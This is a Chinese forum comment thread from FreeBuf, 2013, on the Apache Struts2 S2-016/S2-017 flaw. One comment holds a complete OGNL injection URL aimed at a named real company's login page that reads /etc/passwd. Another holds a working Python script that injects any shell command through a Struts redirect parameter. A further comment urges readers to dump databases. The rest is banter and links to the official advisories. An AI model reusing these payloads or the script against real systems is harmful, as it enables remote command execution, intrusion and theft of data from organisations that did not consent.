 ![](http://static.freebuf.com/uploads/image/20130717/20130717015140_44183.png) 乌云已经开始了……黑阔们拖库吧……
[亮了]() (15) [生生不息]() @ 2013-07-17 16:37:34

https://kf.sf-express.com/css/loginmgmt/index.action?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{%27cat%27,%27/etc/passwd%27}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}
[亮了]() (11) [hackmissmiss]() @ 2013-07-17 14:02:05

刷你妈的分 一群小朋友 为了满足自己的虚荣心 不停的找网站刷分 SB
[亮了]() (10) [uj70ky7b]() @ 2013-07-17 15:52:24

刷你妹妹的分啊，能吃吗. 一分等于几万块啊。
[亮了]() (8) [lock]() @ 2013-07-17 17:58:10

import urllib2,getopt,sys def info(): print "python struts.py -u http://baidu.com/test.action -d whoami" def get(url, data): string = url + "?" + data req = urllib2.Request(string) response = urllib2.urlopen(req) print response.read() if __name__ == '__main__' and len(sys.argv) < 2: info() try: opts, args = getopt.getopt(sys.argv[1:],"u:d:") except: sys.exit(2) for opt, value in opts: if opt == '-u': url = value elif opt == '-d': test = value attack="?redirect:${#a=(new java.lang.ProcessBuilder('%s')).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}"%test get(url,attack)
[亮了]() (8) [n0bele]() @ 2013-07-17 14:01:06

这真是个好厂商，没它黑帽子和那些又做黑产又做白帽子的帽子都快戴不稳了.
[亮了]() (7) [z0mbie]() @ 2013-07-17 14:44:12

小弟看不懂，哪位能给个执行命令的语句
[亮了]() (7) [生生不息]() @ 2013-07-17 13:47:58

目测利用工具马上出炉 POC来自官方： http://struts.apache.org/release/2.3.x/docs/s2-016.html http://struts.apache.org/release/2.3.x/docs/s2-017.htm 。。碉堡不
[亮了]() (6)

### **最新发布****New Posts**

* [神马？关于大数据黑客的吐槽](http://www.freebuf.com/articles/others-articles/11301.html "神马？关于大数据黑客的吐槽")
* [研究人员称黑掉一张SIM卡只需几分钟](http://www.freebuf.com/news/11336.html "研究人员称黑掉一张SIM卡只需几分钟")
* [WebServer端口重定向后门的研究](http://www.freebuf.com/articles/system/11305.html "WebServer端口重定向后门的研究")
* [Ubuntu论坛，纳斯达克交易所网站遭黑客入侵](http://www.freebuf.com/news/11328.html "Ubuntu论坛，纳斯达克交易所网站遭黑客入侵")
* [[专题]Blackhat2013黑帽大会:五款值得一看的黑客工具](http://www.freebuf.com/news/special/11326.html "[专题]Blackhat2013黑帽大会:五款值得一看的黑客工具")
* [[专题]Blackhat2013第一天议题](http://www.freebuf.com/news/11262.html "[专题]Blackhat2013第一天议题")
* [有才！网友制作的Freebuf壁纸（更新）](http://www.freebuf.com/news/others/11063.html "有才！网友制作的Freebuf壁纸（更新）")
* [英国政府将调查华为在英网络安全中心](http://www.freebuf.com/news/11259.html "英国政府将调查华为在英网络安全中心")
* [HITCON2013台湾黑客年会，深入解析网络军事行动致命环节](http://www.freebuf.com/news/11258.html "HITCON2013台湾黑客年会，深入解析网络军事行动致命环节")
* [Facebook的漏洞可以让攻击者在分分钟内重置用户账户密码](http://www.freebuf.com/news/11181.html "Facebook的漏洞可以让攻击者在分分钟内重置用户账户密码")
### **社区新帖****Club New Posts**

